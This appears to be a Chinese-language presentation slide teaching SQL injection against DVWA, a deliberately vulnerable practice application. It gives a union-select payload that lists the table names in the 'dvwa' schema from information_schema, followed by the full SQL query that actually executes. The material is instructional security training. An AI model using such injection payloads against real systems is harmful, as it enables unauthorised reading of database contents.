

# SQL注入方法
1 我们输入
	1' union select table_name,table_schema from  information_schema.tables where table_schema= 'dvwa'#进行查询：
2 实际执行的Sql语句是：
SELECT first_name, last_name FROM users WHERE user_id = '1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`;